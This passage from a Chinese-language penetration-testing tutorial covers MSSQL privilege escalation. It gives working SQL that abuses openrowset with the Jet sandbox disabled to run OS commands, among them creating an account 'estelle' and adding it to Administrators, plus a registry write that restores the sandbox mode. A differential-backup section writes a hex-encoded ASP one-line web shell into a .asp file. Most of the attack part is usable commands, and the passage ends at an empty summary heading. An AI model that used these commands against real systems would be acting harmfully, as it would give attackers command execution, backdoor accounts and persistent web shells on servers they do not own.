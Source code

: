 
> select * from
> 
> openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select
> 
> shell("cmd.exe /c whoami")');

为什么 openrowset 在 select 语句中处于 “表” 的位置呢？因为 openrowset 函数可以在查询的 FROM 子句中引用。依据 OLE DB 提供程序的功能，还可以将 openrowset 函数引用为 insert、update 或 delete 语句的目标表。尽管查询可能返回多个结果集，但 openrowset 只返回第一个结果集。openrowset 还通过内置的 bulk 提供程序支持大容量操作，正是有了该提供程序，才能从文件读取数据并将数据作为行集返回。

之后执行创建用户、加入管理员组等命令。

> select * from
> 
> openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select
> 
> shell("cmd.exe /c net user estelle 123456 /add")')；
> 
> select * from
> 
> openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select
> 
> shell("cmd.exe /c net  localgroup administrators estelle /add")')；

4.  恢复  
    恢复沙盒模式，恢复沙盒模式后再执行系统命令语句，就会报错。
    

> exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',2

差异备份提权
======

MSSQL 差异备份，就是和前一次备份作对比，把不一样的内容备份下来，这样，只要前一次备份后，插入新的内容，差异备份就可以把刚插入的内容备份出来，而且这个备份文件大小将大大缩小。但需要注意的是必须拥有目标文件的路径的写入权限。

> backup database DB_Name to disk='目标文件路径 / 目标文件名. bak'
> 
> # 将需要备份的数据库进行备份
> 
> create table estelle(test image)
> 
> # 创建临时表，随便添加一个字段，用来存放木马
> 
> insert into estelle values(0x3C25657865637574652872657175657374282261222929253E)
> 
> # 将木马插入表中（values 的值为 <%execute(request("a"))%> 的十六进制）
> 
> backup database  DB_Name to disk='目标文件路径 / 目标文件名. asp' with differential,format
> 
> # 重新备份，木马就会写入文件

小结
==
